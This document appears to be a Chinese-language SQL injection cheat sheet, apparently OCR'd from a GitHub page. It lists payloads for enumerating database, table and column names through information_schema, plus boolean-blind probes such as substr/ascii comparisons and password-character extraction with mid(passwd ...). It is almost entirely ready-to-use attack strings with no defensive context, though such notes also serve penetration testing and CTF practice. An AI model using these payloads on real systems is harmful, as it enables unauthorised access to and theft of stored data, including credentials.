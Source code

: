 - 库名

```
select database()

select schema_name from information_schema.schemata limit 0,1
```

- 表名

```
# 表数量
select count(table_name) from information_schema.tables where table_schema=database()

# 第一个表名
select table_name from information_schema.tables where table_schema=database() limit 0,1 

# 所有表名
select make_set(3,'-',(select group_concat(table_name) from information_schema.tables where table_schema=database()),1)	

and exists(select * from users)-- - 	
```

- 字段名

```
# 字段数量
select count(column_name) from information_schema.columns where table_schema=database() and table_name=表名

# 第一个字段名
select column_name from information_schema.columns where table_schema=database() and table_name=表名 limit 0,1

# 所有字段名
select make_set(3,'-',(select group_concat(column_name) from information_schema.columns where table_name="users"),1)	

or (flag)

and exists(select username from users)-- -
```

- 数据

```
1' and length(database())=7-- -
1' and substr(database(),1,1)>'a'-- -
1' and substring(database(),1,1),mid(database(),1,1)-- -
1' and left(database(),1)>'a'-- -
1' and right(database(),1)>'a'-- -
1' and ascii(substr(database(),1,1))>91-- -
limit 1 offset n
mid(passwd from 1 for 1)
mid('abc',1,1)
or username  REGEXP "^admin"
locate('abcd',abc)
```
